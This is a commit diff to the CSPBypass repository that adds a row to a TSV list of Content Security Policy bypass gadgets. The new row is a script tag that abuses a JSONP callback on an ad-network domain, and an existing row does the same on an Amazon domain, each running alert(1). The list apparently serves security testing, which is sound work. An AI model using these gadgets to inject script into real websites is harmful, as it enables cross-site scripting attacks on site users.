

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown.

Commit message:
Fix 7b936.v.fwmrm.net

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -1,2 +1,3 @@
 Domain	Code
+7b936.v.fwmrm.net	<script src="https://7b936.v.fwmrm.net/ad/g/1?nw=1&csid=1&resp=json&cbfn=alert(1)-"></script>
 aax-eu.amazon.com	<script src="https://aax-eu.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
```
